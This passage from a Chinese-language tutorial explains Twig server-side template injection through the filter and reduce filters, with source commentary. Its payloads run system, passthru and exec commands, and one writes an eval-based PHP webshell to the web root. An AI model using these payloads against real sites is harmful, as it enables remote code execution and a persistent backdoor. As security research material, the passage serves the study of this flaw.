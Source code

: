 > Payload

```php
{{["calc"]|filter("system")}}
{{["calc"]|filter("passthru")}}
{{["calc"]|filter("exec")}}    // 无回显
{{{"<?php phpinfo();eval($_POST[H3rmesk1t]);":"/var/www/html/shell.php"}|filter("file_put_contents")}}    // 写 Webshell
```

### reduce 过滤器
> 这个 reduce 过滤器使用箭头函数迭代地将序列或映射中的多个元素缩减为单个值，箭头函数接收上一次迭代的返回值和序列或映射的当前值

```php
{% set numbers = [1, 2, 3] %}
{{ numbers|reduce((carry, v) => carry + v) }}
// Output: 6
```

> 类似于 map，模板编译的过程中会进入 `twig_array_reduce` 函数，这个 `twig_array_reduce` 函数的源码如下

```php
function twig_array_reduce($array, $arrow, $initial = null)
{
    if (!\is_array($array)) {
        $array = iterator_to_array($array);
    }

    return array_reduce($array, $arrow, $initial);    // $array, $arrow 和 $initial 直接被 array_reduce 函数调用
}
```

> 从源码中可以看到 `$array` 和 `$arrow` 直接被 `array_filter` 函数调用，`array_reduce` 函数可以发送数组中的值到用户自定义函数并返回一个字符串，如果自定义一个危险函数将造成代码执行或命令执行

> Payload

```php
{{[0, 0]|reduce("system", "calc")}}
{{[0, 0]|reduce("passthru", "calc")}}
{{[0, 0]|reduce("exec", "calc")}}    // 无回显
```